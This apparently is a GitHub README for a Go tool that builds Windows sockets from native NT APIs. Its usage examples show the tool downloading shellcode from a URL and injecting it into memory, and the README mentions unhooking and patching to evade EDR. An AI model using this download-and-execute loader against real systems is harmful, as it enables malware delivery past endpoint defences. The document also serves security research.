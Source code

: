 # go-nt-socket

a pure go implementation of windows sockets using native nt apis, avoiding winsock entirely.

## demo
https://github.com/user-attachments/assets/1ab131dd-34d5-4e29-90e4-8cbefde25d5a



## credits

this project builds upon research and techniques from various security researchers:
- [Original NT Socket Research](https://www.x86matthew.com/view_post?id=ntsockets) by x86matthew
- [Rust Implementation](https://github.com/Whitecat18/Rust-for-Malware-Development/tree/main/NtSockets) by [@5mukz](https://twitter.com/5mukz) (like a lot of my projects, shoutout him lol)
- my go-native-syscall library for nt api access and access to rtl calls for heap ops

## features

- tcp/udp socket creation using afd endpoints
- dns resolution via udp sockets  
- http file downloading
- shellcode injection using private heap allocation
- file operations using nt apis
- content verification and retry mechanisms

## usage
```bash
# from project root
go run ./server/fileserver.go

# this serves test files on `http://localhost:8080/test.txt` and `http://localhost:8080/calc.bin`
# then open a new shell to perform the download or injection passing either as the url based on ur desired flag :3

```


### file download mode
```bash

./go-nt-socket.exe http://example.com/file.txt output.txt
```

### shellcode injection mode
```bash
./go-nt-socket.exe http://example.com/shellcode.bin dummy --inject
```

**important**: when using `--inject` mode, you must pass `dummy` (or any string) as the output file parameter. this parameter is ignored during injection but required by the argument parser.

## building

```bash
export CGO_ENABLED=1 # bc of go-native-syscall (ironic isn't it)
go mod tidy
go build -o go-nt-socket.exe ./cmd
```

## notes

- requires windows (uses nt apis)
- shellcode injection uses heap allocation to avoid go garbage collector interference  
- includes content verification to detect memory corruption
- implements manual http/1.0 client without standard library dependencies
- uses unhooking and patching techniques for edr evasion





